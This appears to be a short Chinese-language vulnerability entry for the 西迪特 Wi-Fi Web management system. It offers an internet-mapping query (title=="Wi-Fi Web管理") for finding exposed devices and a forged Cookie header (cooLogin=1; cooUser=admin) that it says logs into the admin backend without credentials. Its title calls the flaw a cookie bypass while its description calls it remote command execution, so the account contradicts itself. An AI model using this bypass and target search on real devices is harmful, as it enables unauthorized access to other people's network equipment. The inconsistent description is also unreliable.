


# 西迪特 Wi-Fi Web管理 Cookie 越权访问漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>西迪特 Wi-Fi Web管理</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="Wi-Fi Web管理"</a-checkbox></br>

## 漏洞复现o

登录页面



添加Cookie，即可登录后台

```bash
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```



